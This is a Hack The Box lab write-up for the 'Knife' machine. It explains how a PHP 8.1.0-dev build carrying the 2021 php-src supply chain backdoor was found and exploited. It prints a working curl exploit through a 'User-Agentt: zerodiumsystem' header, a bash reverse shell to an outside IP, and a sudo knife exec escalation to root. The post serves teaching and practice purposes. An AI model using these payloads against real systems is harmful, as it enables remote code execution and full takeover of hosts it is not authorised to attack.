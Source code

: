 ```yaml
---
title: "Hack The Box - Knife"
description: In this post, I'll go over Knife from Hack the Box. It's an easy level Linux machine that shows what damage a supply chain attack on the PHP codebase could have caused if it would have slipped through the cracks and got released into the wild.
date: 2021-08-30T20:00:00+01:00
slug: hack-the-box-knife
categories: [hack-the-box, writeup, knife, php, backdoor, chef]
cover: ../../../assets/2021-08-30-hack-the-box-knife/cover.jpg
---
```


Knife is one of the easier boxes on HTB. There are only two significant steps involved. The first step is noticing a header in the HTTP request that contains a weird PHP version. Looking for this version online shows that this particular PHP version has a backdoor inserted when the PHP development servers were hacked back in March of 2021. Once on the box, there is a setuid binary called knife. This binary is part of Chef, which is a collection of DevOps tools. Going through the docs show that arbitrary code execution is possible to get access to the root user.

## Enumeration
I am kicking off a nmap scan to understand better what services and ports the target machine is exposing. With arguments`-sV` to enumerate versions, `-sC` to run all default scripts, and store the output in a file named `nmap.txt`. Dumping the output to a log file makes it easy to refer back to later, or if you want to embed it in your blog, as I do.

```sh
$ nmap -sC -sV -o nmap.txt 10.10.10.242

# Nmap 7.91 scan initiated Wed May 26 20:16:25 2021 as: nmap -sC -sV -v -o nmap.txt 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 26 20:16:34 2021 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

The result shows an ssh server running on port `22` and a simple web server hosted by Apache on port  `80`. Opening this website in Firefox show the renderings of what I would call a pretty basic HTML website.

![Website On Port 80](../../../assets/2021-08-30-hack-the-box-knife/website.png)

After combing through the website for a minute or two, I decided to start a couple of gobuster scans. None yielded anything fruitful and it wasn't until I checked my `nikto` scan for the second time that I noticed something interesting .

```sh
$ nikto -host 10.10.10.242 -output knife-nikto.txt

- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.242
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/8.1.0-dev
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HTWZVPJS Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ GET The site uses SSL and Expect-CT header is not present.
```

The `x-powered-by` header contains a rather interesting version, `PHP/8.1.0-dev`, indicating this is running a development build of PHP. On release day, Googling this version didn't yield many results. Hence, I took to [GitHub](https://github.com/php/php-src) and tried to find more information in the PHP source code itself. But this also wasn't very helpful. The repo didn't contain any tags for this specific version or any references to it whatsoever. Spending a lot more time trying different google searches, I bumped in this article from [artechnica](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server). It talks about a supply chain attack against the PHP codebase where it got hacked, and a backdoor got inserted. Looking into it deeper many more articles talking about it https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/ and https://news-web.php.net/php.internals/113838.

Funny enough, searching for that version now directly leads to a working exploit on exploitdb:

![Duck Duck Go Search Result](../../../assets/2021-08-30-hack-the-box-knife/duckduckgo-search-now.png)

In a nutshell, what happened is that two commits got added to the php-src repo under the account names of two well-known PHP developers. The assumption is that an attacker gained access to git.php.net server. Git by itself doesn't add any safety measures around identity, making it very easy for whoever wants to impersonate a commit as a specific user. Following this incident, PHP maintainers have decided to migrate the official PHP source code repository to GitHub as a precaution.

Given the code lives on GitHub and the open-source nature of PHP, I can have a look at the malicious commits [here](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R370) and [here](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370). The commits target one file, `ext/zlib/zlib.c`, adding 11 lines of code (all in green):

It’s fascinating to see others commenting on the commit, the first comment asking if the misspelling of `HTTP_USER_AGENT` as `HTTP_USER_AGENTT` was a mistake, and four lines later someone asking what it did, and someone else responding basically that’s it’s a backdoor, and how it works.

![PHP Malicious Commit](../../../assets/2021-08-30-hack-the-box-knife/php-malicious-commit.png)

As the devs point out, to execute this backdoor, I’ll need a `User-Agentt` header that starts with “zerodium”, and whatever is after that will be executed as PHP code.

## Foothold
To test this out, I quickly prepare a `curl` command that will execute the `echo` command with some random text, hoping embedded in the output.

```sh
curl -XGET -H 'User-Agentt: zerodiumsystem("echo hello_15234_world");' 10.10.10.242 | grep hello
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5821    0  5821    0     0   111k      0 --:--:-- --:--:-- --:--:--  111k
hello_15234_world
```

It works! All I have to do now is replace the `echo` command with a reverse shell
 `curl -v -I -XGET -H 'User-Agentt: zerodiumsystem("bash -c \"bash -i >& /dev/tcp/10.10.14.9/6666 0>&1\"");' 10.10.10.242`. And I get a shell to extract the user flag:

![User Flag](../../../assets/2021-08-30-hack-the-box-knife/user-flag.png)

## Privilege escalation
The user I got access to is called james, and it seems that this user can run the `knife` command as root.

```sh
james@knife:/dev/shm$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

james@knife:/dev/shm$
```

Knife is part of the [Chef](https://docs.chef.io/platform_overview) toolchain. Which is an infrastructure as code platform. Knife itself is a command line tool that according to the docs can be used to manage different parts of chef such as nodes, cookbooks, recipes, roles, environments, ...

Digging through the docs I learned that `knife` has an [exec](https://docs.chef.io/workstation/knife_exec/) command that allows running ruby code. At the time of the challenge `knife` didn't have a [GTFObins page](https://gtfobins.github.io/gtfobins/ruby/#sudo) yet. Because I quickly skimmed the docs I [downloaded](https://github.com/secjohn/ruby-shells/blob/master/revshell.rb) a Ruby reverse shell and executed the file with `knife` to get root access:

![Root Flag](../../../assets/2021-08-30-hack-the-box-knife/root-flag.png)

But with the `-e` it could have been as easy as:

```
james@knife:~$ sudo knife exec -E "exec '/bin/bash'"
root@knife:/home/james#
```

